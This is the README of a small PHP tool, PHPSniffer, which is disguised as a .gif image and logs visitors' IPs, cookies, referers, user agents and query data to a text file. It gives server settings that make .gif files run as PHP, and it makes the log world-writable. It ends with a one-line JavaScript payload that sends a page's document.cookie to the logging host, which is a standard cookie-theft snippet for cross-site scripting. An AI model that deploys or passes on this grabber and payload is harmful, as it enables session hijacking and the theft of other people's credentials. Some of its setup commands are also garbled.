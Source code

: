 PHPSniffer
==========

Simple PHP script to receive GET data and log it to txt file.

#### Install ####

Clone from GIT:

```git clone https://github.com/codebyzen/PHPSniffer```

Change rights & rename:
```mv img.php ing.gif | chmod +x ./img.gif```

To setup your Apache server use .htaccess
```AddType application/x-httpd-php .gif```
or if PHP as CGI
```AddHandler application/x-httpd-php .gif```

If you use NGINX use below location config:
```
    location ~ /path/.*\.(gif|jpg|png)$ {
        fastcgi_index index.php;
        include /Applications/MAMP/conf/nginx/fastcgi_params; # just for example maybe like fastcgi_params
        fastcgi_pass unix:/Applications/MAMP/Library/logs/fastcgi/nginxFastCGI_php7.2.8.sock; # just for example maybe like /tmp/fastcgi.sock
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    }
```

Create log file and set propper rights:
```touch log.txt | chmod 777 log.txt```

##### Simple Log File #####
```Access time, IP, Server-Cookie, Cookie, Referer, User-Agent, Host, Query-String```


#### Usage ####
You can direct access to script file `http://site.tld/path/img.gif` after that you see little smile face. If all ok log.txt file will appended with your ip, ua, time and other.
To pass the useful data use GET parametres: `http://site.tld/path/img.gif?c=simple%20data%you%20need`. Data from `c` wil be added to log.
If you don't need smile face image, set `i=1` param to output 1x1 transparent pixel.

Simple JS script for tests:
```i=new/**/Image();i.src='http://host/path/img/gif?c='+escape(document.cookie)+'&i=1';```
